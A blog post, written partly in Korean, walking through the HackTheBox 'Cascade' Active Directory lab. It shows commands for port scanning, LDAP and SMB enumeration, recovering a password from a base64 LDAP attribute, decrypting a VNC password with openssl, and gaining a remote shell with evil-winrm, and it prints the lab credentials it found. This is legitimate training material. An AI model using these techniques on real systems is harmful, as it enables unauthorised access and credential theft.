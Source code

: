 ```yaml
---
layout: post
title: HackTheBox Cascade
subtitle: Acitive Directory 101 Cascade Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Cascade/e62731204ae8e75e2ba8c8157bcd0580_MD5.jpeg)

## Target - 10.129.192.253
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.192.253 -oN Cascade_allport
```
![](/assets/images/posts/2025-03-04-Cascade/d068db01853b01b1190c5f0893e7b02d_MD5.jpeg)
### LDAP Enumeration Using Ldapsearch
```bash
# https://www.geeksforgeeks.org/ldap-enumeration/
# username 찾기
crackmapexec smb 10.129.192.253 -u '' -p '' --users

# 위에서 찾은 username으로 Ldapsearch
ldapsearch -x -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w '' | grep -i r.thompson
ldapsearch -x sAMAccountName=r.thompson -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w ''

# base64 decoding
rY4n5eva
```

![](/assets/images/posts/2025-03-04-Cascade/da2a3a579a986c400ebd047f5b8475ca_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/a6d72c86ee2c0b9b205f1195837f5c8b_MD5.jpeg)
### SMB Enum (r.thompson Auth)
```bash
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --shares
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --spider Data --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Data -U 'r.thompson' --password='rY4n5eva'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
![](/assets/images/posts/2025-03-04-Cascade/bbf9d5955c0dc34aa49627a6d170bfbd_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/d65a2eb43a96c57e046d458ac7dc5716_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/c063e77df0b824b11bddc95e5b68fe55_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/8ee32c59ed3ec56f3938512a9ea94f3b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/1689b05737a050bda11825906eba2c92_MD5.jpeg)

### VNC Decrypt
```bash
# https://github.com/billchaison/VNCDecrypt
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```
![](/assets/images/posts/2025-03-04-Cascade/802c943dd31ce351b2bb1497c97057b7_MD5.jpeg)

### evil-WinRM
```bash
evil-winrm -i 10.129.192.253 -u s.smith -p sT333ve2
```
![](assets/images/posts/2025-03-04-Cascade/c62bd9b245ee6cf85329f44dcb910f1b_MD5.jpeg)
#### In Evil-WinRM
```bash
# https://activedirectorypro.com/get-aduser-examples/ 참고해서 해보기
net user s.smith

# smb reenum
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --shares
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --spider Audit$ --regex .
```
